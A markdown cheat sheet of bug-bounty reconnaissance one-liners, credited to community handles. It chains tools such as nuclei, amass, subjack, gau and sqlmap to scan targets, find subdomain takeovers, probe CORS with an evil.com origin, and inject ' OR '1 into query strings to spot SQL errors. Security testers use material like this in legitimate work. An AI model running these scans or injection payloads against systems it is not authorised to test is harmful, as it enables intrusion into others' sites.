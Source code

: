 ## Nuclei scan to bugbounty targets.
> hack_fish
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | httpx -silent | xargs -n 1 gospider -o output -s ; cat output/* | egrep -o 'https?://[^ ]+' | nuclei -t ~/nuclei-templates/ -o result.txt
```
> @ofjaah
```bash
amass enum -passive -norecursive -d https://target.com -o domain ; httpx -l domain -silent -threads 10 | nuclei -t nuclei-templates -o result -timeout 30
```

## Endpoints, by apks
> @ofjaaah
```bash
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|http://schemas.android\|google\|http://goo.gl"
```

## Find Subdomains TakeOver
> hahwul
```bash
subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```

## CORS Misconfiguration
> manas_hunter
```bash
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```

## SQL Injection
> @ofjaaah
```bash
findomain -t http://testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1
```

## Search SQLINJECTION using qsreplace search syntax error
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
```bash
grep "="  .txt| qsreplace "' OR '1" | httpx -silent -store-response-dir output -threads 100 | grep -q -rn "syntax\|mysql" output 2>/dev/null && \printf "TARGET \033[0;32mCould Be Exploitable\e[m\n" || printf "TARGET \033[0;31mNot Vulnerable\e[m\n"
```
